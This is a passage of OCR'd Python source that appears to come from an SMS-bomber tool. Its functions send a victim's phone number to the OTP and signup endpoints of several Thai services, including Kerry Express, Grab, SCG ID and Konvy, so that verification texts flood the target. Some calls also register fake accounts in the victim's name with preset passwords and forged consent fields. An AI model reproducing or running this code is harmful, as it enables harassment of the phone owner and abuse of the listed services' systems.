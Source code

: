     def api27(phone):

        post("https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/"+phone)

    def api28(phone):

        post("https://api.scg-id.com/api/otp/send_otp",

             headers={"Content-Type": "application/json;charset=UTF-8"}, json={"phone_no": phone})

    def api29(phone):

        post("https://partner-api.grab.com/grabid/v1/oauth2/otp", json={"client_id": "4ddf78ade8324462988fec5bfc5874c2", "transaction_ctx": "null", "country_code": "TH",

             "method": "SMS", "num_digits": "6", "scope": "openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile", "phone_number": phone}, headers={})

    def api30(phone):

        post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code",

             data={"phone": phone})

    def api31(phone):

        post("https://ecomapi.eveandboy.com/v10/user/signup/phone",

             data={"phone": phone, "password": "123456789Az"})

    def api32(phone):

        post("https://cognito-idp.ap-southeast-1.amazonaws.com/", headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36", "content-type": "application/x-amz-json-1.1", "x-amz-target": "AWSCognitoIdentityProviderService.SignUp", "x-amz-user-agent": "aws-amplify/0.1.x js", "referer": "https://www.bugaboo.tv/members/signup/phone"}, json={"ClientId": "6g47av6ddfcvi06v4l186c16d6",

             "Username": f"+66{phone[1:]}", "Password": "098098Az", "UserAttributes": [{"Name": "name", "Value": "Dbdh"}, {"Name": "birthdate", "Value": "2005-01-01"}, {"Name": "gender", "Value": "Male"}, {"Name": "phone_number", "Value": f"+66{phone[1:]}"}, {"Name": "custom:phone_country_code", "Value": "+66"}, {"Name": "custom:is_agreement", "Value": "true"}, {"Name": "custom:allow_consent", "Value": "true"}, {"Name": "custom:allow_person_info", "Value": "true"}], "ValidationData": []})

        post("https://cognito-idp.ap-southeast-1.amazonaws.com/", headers={"cache-control": "max-age=0", "user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36", "content-type": "application/x-amz-json-1.1",

             "x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode", "x-amz-user-agent": "aws-amplify/0.1.x js", "referer": "https://www.bugaboo.tv/members/resetpass/phone"}, json={"ClientId": "6g47av6ddfcvi06v4l186c16d6", "Username": f"+66{phone[1:]}"})

    def api33(phone):

        post(

            f"https://laopun.com/send-sms?id={phone}&otp=5153", headers=header)

    def api34(phone):

        post("https://jdbaa.com/api/otp-not-captcha",
